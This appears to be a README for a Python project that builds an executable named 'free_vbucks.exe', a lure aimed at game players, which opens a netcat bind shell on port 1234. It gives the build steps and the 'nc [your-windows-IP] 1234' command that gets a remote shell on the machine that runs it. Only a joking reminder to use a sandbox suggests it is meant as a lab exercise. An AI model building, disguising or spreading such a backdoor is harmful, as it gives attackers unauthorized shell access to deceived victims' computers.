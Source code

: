 Pre-requisites:
Have Python and cx_Freeze installed

How to install cx_Freeze:
run "pip install cx_Freeze" in your terminal

How it works:

1. Open your code editor (or cmd) and run "python setup.py build" in the terminal and a "Build" folder should be generated
2. Open the folder inside the "Build" folder and run "free_vbucks.exe" in your Windows system
3. Try "nc [your-windows-IP] 1234" on another machine (i.e. Kali Linux)
4. You should be able to spawn a shell on your target machine
5. pls do this using a sandbox 💀

Note: The netcat will run and listen only one time each time you run the executable. To re-enable Netcat to listen for incoming connections, simply run the executable once more.
